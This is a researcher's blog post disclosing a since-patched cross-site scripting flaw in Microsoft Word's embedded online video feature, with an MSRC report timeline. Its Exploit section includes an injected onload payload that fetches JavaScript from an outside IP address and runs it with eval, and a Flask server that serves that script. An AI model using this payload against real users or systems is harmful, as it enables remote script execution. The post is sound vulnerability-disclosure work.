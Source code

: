 ```yaml
---
layout: post
title:  "2023 Microsoft Office XSS"
date:   2023-10-04 14:57:20 +0900
---
```


Found by [@adm1nkyj](https://twitter.com/adm1nkyj1) and [@justlikebono](https://twitter.com/justlikebono)


# Summary

In the server, when parsing a video from a link designated by an attacker, a malicious payload included in the video title can trigger an XSS (Cross-site Scripting) attack, allowing the execution of arbitrary Javascript code.

# The Basics

- **Product:** Office Word, including Office 365 Word
- **Tested Version:** Microsoft Word for Microsoft 365 MSO (Version 2306 Build 16.0.16529.20164) 64-bit
- **Bug-class**: XSS(Cross-Site Scripting)

# The Vulnerability

  Various Office products, including MS Word, allow users to insert desired external videos into documents via the "Online Videos" tab.

![pic1.jpg](/assets/office-rce/pic1.jpg)

  When a user plays an external video embedded in a document, Office checks whether the provider of the external video is trustworthy, such as YouTube. This check is performed by applying the following regular expression to the URL.

```python
https?://(www\.)?youtube\.\w{2,3}/.*|https?://(www\.)?youtube-nocookie\.\w{2,3}/.*|https?://youtu\.be/.*|https?://(player\.)?vimeo\.com/.*|https?://(\w+\.)?slideshare\.net/.*|https?://(\w+\.)?microsoftstream\.com/.*
```

  If it is deemed trustworthy, it sends a request like the following to fetch data such as the video's title or thumbnail.

```python
GET https://hubble.officeapps.live.com/mediasvc/api/media/oembed?url=https%3A%2F%2Fwww.youtube.com%2Fembed%2FGX2nEmvxK-4%3Ffeature%3Doembed&streamsso=true&lcid=1033&syslcid=1042&uilcid=1033&app=0&ver=16&build=16.0.16529&platform=Win32 HTTP/1.1
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Word 16.0.16529; Pro)
X-IDCRL_ACCEPTED: t
X-Office-Version: 16.0.16529
X-Office-Application: 0
X-Office-Platform: Win32
X-Office-AudienceGroup: Production
X-Office-SessionId: DE75B69F-49BA-4D92-BD45-2B02504B4021
Host: hubble.officeapps.live.com
```

  The server at [hubble.officeapps.live.com](http://hubble.officeapps.live.com/) responds with information including the video's title, description, and the HTML iframe tag to play the video.

  The vulnerability arises from this iframe tag. The server adds the video's title to the “**title”** attribute of the iframe tag without any validation. As a result, by appropriately using double quotes, one can freely add an **onload** attribute to the iframe tag that the server responds with.

  Below is an example of an [officeapps.live.com](http://officeapps.live.com/) server response to a malicious external video.

```json
{
    "description": "",
    "video_description": "",
    "start_time": null,
    "end_time": null,
    "embed_url": "https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed",
    "html": "<iframe width=\"200\" height=\"150\" src=\"https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed\" frameborder=\"0\" allow=\"accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share\" allowfullscreen=\"\" title=\"\" onload=\"fetch('http://158.247.239.32/a.js').then(function(a){a.text().then(function(a){eval(a)})})\" sandbox=\"allow-scripts allow-same-origin allow-popups\"></iframe>",
    "type": "video",
    "title": "\" onload=\"fetch('http://127.0.0.1/a.js').then(function(a){a.text().then(function(a){eval(a)})})",
    "provider_name": "YouTube",
    "provider_url": "https://www.youtube.com/",
    "thumbnail_url": "https://i.ytimg.com/vi/GX2nEmvxK-4/hqdefault.jpg",
    "thumbnail_width": 480.0,
    "thumbnail_height": 360.0,
    "width": 200.0,
    "height": 150.0
}
```

  Based on this response, Word writes an HTML file to be rendered through **Edge Webview** in the %LOCALAPPDATA%\Microsoft\Windows\INetCache\Content.Word directory.

  As a result, this HTML will include the JS code injected by the attacker. (The logic for this is implemented in wwlib!XszCreateVideoHTML. A detailed analysis of this is beyond the scope of this article.)

  As seen above, the sandbox attribute of the iframe has allow-scripts, allow-same-origin, and allow-popups set. This means that JavaScript can be executed, desired URIs can be run through window.open, or scripts from an external server can be executed via the fetch method.

# Exploit

1. As shown in the example in the vulnerability description, create a YouTube video with a title that includes a payload for inserting the onload attribute.

`" onload="fetch('[http://127.0.0.1/a.js](http://127.0.0.1/a.js)').then(function(a){a.text().then(function(a){eval(a)})})`

1. Click on the Online Videos tab in Word and insert the URL of the malicious video into the document.

![Untitled](/assets/office-rce/Untitled.png)

1. Set up a simple web server that allows CORS and responds with malicious javascript, as below. (The example executes calc.exe through the calculator URI Scheme.)

```python
from flask import Flask

app = Flask(__name__)

@app.after_request
def apply_cors(response):
    response.headers['Access-Control-Allow-Origin'] = '*'
    return response

@app.route('/a.js', methods=['GET'])
def exploit():
    return 'window.open("calculator://")'
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

# Demo

[PoC_Public.mp4](/assets/office-rce/PoC_Public.mp4)

# Conclusion

  The vulnerability has shown that an attacker can create a Word document containing a specific video and execute the arbitrary javascript code when playing the video.

  Past critical exploits of Office, such as CVE-2021-40444 and CVE-2022-30190 (Folina), all started with the execution of arbitrary javascript. If it's linked with a new vulnerable URI, like the previously exploited ms-msdt, it could directly lead to a critical RCE (Remote Code Execution) vulnerability.

  Especially as a vulnerability that triggers when a video embedded in Word is played, it's easy for an attacker to induce a user to play the video. Prompt action is required.

# Reference

- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190)

# TimeLine

- 2023-07-27 Vulnerability reported to MSRC
- 2023-08-25 Recognized as a security vulnerability with a severity of **Critical**
- 2023-09-12 Patched in the latest release
